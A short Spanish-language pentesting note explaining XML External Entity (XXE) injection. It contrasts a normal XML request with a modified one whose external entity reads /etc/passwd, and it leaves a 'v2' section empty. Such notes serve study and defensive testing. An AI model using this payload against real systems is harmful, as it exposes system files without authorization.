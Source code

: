 # XML External Entity Injection(XXE)


Ciertas aplicaciones tienen que postear ocasionalmente un documento XML para realizar una acción. El manejo no adecuado de esos documentos XLM puede llevar a lo que se conoce como XXE. Ocurre cuando un atacante es capas de usar la característica de ENTITY de un XML para cargar recursos fuera del sitio web del directorio.

## Explotación manual

- Original
```
<?xml version="1.0" encoding="UTF-8"?><root><name>xpc</name><tel>9999</tel><email>xpc@gmail.com</email><password>xpc</password></root>
```

- Modificada v1

```
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root><name> xpc</name><tel>9999</tel><email> &xxe;</email><password>xpc</password></root>
```

- Modificada v2




## Referencias:

- [PayloadsAllTheThings XML External Entity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe)